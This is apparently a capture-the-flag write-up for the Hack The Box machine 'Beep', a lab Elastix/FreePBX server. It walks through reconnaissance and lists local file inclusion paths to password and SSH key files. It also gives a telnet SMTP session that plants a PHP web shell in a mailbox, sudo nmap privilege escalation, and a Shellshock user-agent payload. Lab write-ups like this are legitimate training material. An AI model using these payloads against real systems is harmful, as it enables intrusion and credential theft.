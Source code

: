 # Beep - Writeup


First run the following nmap command:
**nmap -sC -sV -oA nmap 10.10.10.7**

Then you have to enumerate different dirs on the website. Use Gobuster. Turn off recursion. 
Always check x.x.x.x/help for backup instructions. 
You can also download a logo and run exiftool on it to see if you can get date or version.

Use searchsploit on the webserver for this instance it is elastix. 
In this search you will see that the search returns like 5 results. 
You can use the LFI to see files that the webserver has access to. 
Copy the lfi string and try to use it in burpsuite.

Interesting LFI payloads:
/etc/passwd (When you find the users home dir. Look for the keys!)
/etc/amportal.conf (This page contains passwords. The one that is most commonly used in that 
page is a root password for ssh root@10.10.10.7).
/etc/pam.d
/etc/fail2ban/fail2ban.conf
/proc/self/status (Here you can find information about the running user, the uid which you can use to 
get the exact user in the /etc/passwd. When you find the users home dir. Look for the keys!)
/var/lib/asterisk/.sshd/id_rsa
logfiles
/var/lib/asterisk/.bash_history  

Cool commands:
**grep -r “pattern” - greps recursively in the directories in files.**

Sending a manual mail using telnet:
telnet 10.10.10.7 25
Wait for the server to answer.
EHLO hascobot.beep.htb
*response is list of commands*
VRFY asterisk@localhost
response: 252 2.0.0 asterisk@localhost
mail from:pwned@haha.io
response: 250 2.1.0 OK
rcpt to: asterisk@localhost
response: 250 2.1.5 OK
data
response: 354 End data with <CR><LF>.<CR><LF>
Subject: You got owned
<? php echo system($_REQUEST['pwn']); ?>

.
response: 250 2.0.0 OK: queued as XXXXXXXXXXXX

If you have LFI the above mail can be used to get code execution. 
Locate the mail above in the file system and send it commands!

LFI payload: /var/mail/asterisk and then adding **&ipp=”command”** like command = whoami.
Can be used to create reverse shell.

sudo -l to see sudo programs, in this case you will see nmap and that is setuid root so jackpot.

Another way to exploit is to use another searchsploit exploit on beep. Using the search with elastix. 
This is the FreePBX exploit. You need an extension for this exploit to work. 
You can get this extension by using **svwar -m INVITE -e1-240 10.10.10.7**. 
Which will send invite to the extension range if you get a reqauth then you know it is a valid extension. 
Other than that you can also find the extension by utilizing the page called panel. See gobuster.

Third way to exploit this machine is by using the shellshock exploit!

Shellshock is usually exploitable if the webserver uses cgi. It is easy to probe for using burpsuite. 
Simply change the useragent to the following payload: () { :; }; sleep 10. 
Try sleep 10 and sleep 1 if you notice a sizable time then you can send the reverse shell. 






